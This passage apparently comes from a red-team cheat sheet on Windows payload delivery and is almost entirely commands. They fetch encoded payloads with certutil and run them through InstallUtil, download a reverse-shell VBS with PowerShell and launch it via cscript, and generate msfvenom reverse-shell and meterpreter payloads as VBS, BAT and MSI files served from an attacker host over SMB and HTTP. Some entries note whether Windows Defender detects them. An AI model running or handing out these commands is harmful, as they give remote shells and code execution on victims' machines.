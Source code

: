 ```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

Download a B64exe, decode it and execute it.

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

**Detected by defender**

## **Cscript/Wscript**

```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.2.0.5:8000/reverse_shell.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

**Cscript - Metasploit**

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 -f vbs > shell.vbs
```

**Detected by defender**

## PS-Bat

```bash
\\webdavserver\folder\batchfile.bat
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.2.0.5 lport=4444 > shell.bat
impacket-smbserver -smb2support kali `pwd`
```

```bash
\\10.8.0.3\kali\shell.bat
```

**Detected by defender**

## **MSIExec**

Attacker

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.0.5 lport=1234 -f msi > shell.msi
python -m SimpleHTTPServer 80
```

